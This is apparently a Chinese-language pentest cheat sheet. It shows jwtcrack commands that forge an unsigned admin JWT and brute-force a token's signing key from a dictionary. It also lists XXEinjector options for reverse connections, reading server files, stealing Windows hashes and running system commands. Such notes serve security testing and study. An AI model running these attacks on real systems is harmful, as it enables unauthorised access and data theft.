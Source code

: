 #### jwtcrack

6bb4837eb74329105ee4568dda7dc67ed2ca2ad9

##### 禁用哈希6

~~~python
python jwtcrack.py -m generate -s {"admin":"True"}
~~~

##### 批量爆破弱密钥

~~~python
python jwtcrack.py -m blasting -s eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.keH6T3x1z7mmhKL1T3r9sQdAxxdzB6siemGMr_6ZOwU --kf C:\Users\Ch1ng\Desktop\2.txt
~~~

这里C:\Users\Ch1ng\Desktop\2.txt就是你的字典



#### XXEinjector

~~~ruby
--host     必填项– 用于建立反向链接的IP地址。(--host=192.168.0.2)
--file      必填项- 包含有效HTTP请求的XML文件。(--file=/tmp/req.txt)
--path           必填项-是否需要枚举目录 – 枚举路径。(--path=/etc)
--brute          必填项-是否需要爆破文件 -爆破文件的路径。(--brute=/tmp/brute.txt)
--logger        记录输出结果。
--rhost          远程主机IP或域名地址。(--rhost=192.168.0.3)
--rport          远程主机的TCP端口信息。(--rport=8080)
--phpfilter    在发送消息之前使用PHP过滤器对目标文件进行Base64编码。
--netdoc     使用netdoc协议。(Java).
--enumports   枚举用于反向链接的未过滤端口。(--enumports=21,22,80,443,445)
--hashes       窃取运行当前应用程序用户的Windows哈希。
--expect        使用PHP expect扩展执行任意系统命令。(--expect=ls)
--upload       使用Java jar向临时目录上传文件。(--upload=/tmp/upload.txt)
--xslt      XSLT注入测试。
--ssl              使用SSL。
--proxy         使用代理。(--proxy=127.0.0.1:8080)
--httpport Set自定义HTTP端口。(--httpport=80)
--ftpport       设置自定义FTP端口。(--ftpport=21)
--gopherport  设置自定义gopher端口。(--gopherport=70)
--jarport       设置自定义文件上传端口。(--jarport=1337)
--xsltport  设置自定义用于XSLT注入测试的端口。(--xsltport=1337)
--test     该模式可用于测试请求的有效。
--urlencode     URL编码，默认为URI。
--output       爆破攻击结果输出和日志信息。(--output=/tmp/out.txt)
--timeout     设置接收文件/目录内容的Timeout。(--timeout=20)
--contimeout  设置与服务器断开连接的，防止DoS出现。(--contimeout=20)
--fast     跳过枚举询问，有可能出现结果假阳性。
--verbose     显示verbose信息。
~~~

这里常用的就是前几个
